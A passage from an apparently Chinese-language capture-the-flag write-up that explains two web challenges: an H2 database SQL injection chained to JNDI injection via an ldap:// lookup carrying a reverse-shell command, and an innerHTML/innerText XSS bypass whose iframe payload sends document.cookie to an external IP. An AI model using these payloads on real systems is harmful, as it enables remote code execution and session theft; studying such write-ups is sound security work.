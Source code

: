 ```
                }
            }

            return (boolean)var8;
        }
    }
```

然后数据库类型是h2数据库，且executeQuery()支持解析多条语句，那就是很平常的h2打法了，因为题目出网，绕黑名单我用的是JNDI注入，不过不出网的话也可以打其他的，方法很多

payload如下

```
admin';CREATE ALIAS abc AS 'String rce(String cmd) throws Exception {
new javax.naming.InitialContext().lookup(cmd);
return "123";}';--&password=123
```

```\
admin';CALL abc ('ldap://ip:1389/Deserialize/Jackson/Command/反弹shell命令');--&password=123
```

![image-20250211214805890](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211214805890.png)

## display

这题猪了，一开始以为是DOMPurify的0day，看了一个多小时没戏直接跑路玩游戏去了

第二天看到hint出了之后很快就有人解了才返回来看这道题,结果才发现

```
const sanitizedText = sanitizeContent(atob(decodeURI(queryText)));
console.log(sanitizedText)

if (sanitizedText.length > 0) {
    textInput.innerHTML = sanitizedText;             // 写入预览区
    contentDisplay.innerHTML = textInput.innerText;  // 写入效果显示区

    insertButton.disabled = false;    
} else {
    textInput.innerText = "Only allow h1, h2 tags and plain text";
}
```

这里contentDisplay的值是textInput的innerText啊(就是textInput在浏览器上展示的字符)

那就可以很简单的利用html实体编码来绕过

![image-20250211215458831](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211215458831.png)

可以看到很成功的插入我们的标签，但是这里并没有被DOM所渲染，这里就用到hint了

我们使用iframe框架来插入script

```
<iframe srcdoc="<script src='/a/;fetch(%60http://111.229.198.6:5000/%60+document.cookie);//'></script>"></iframe
```
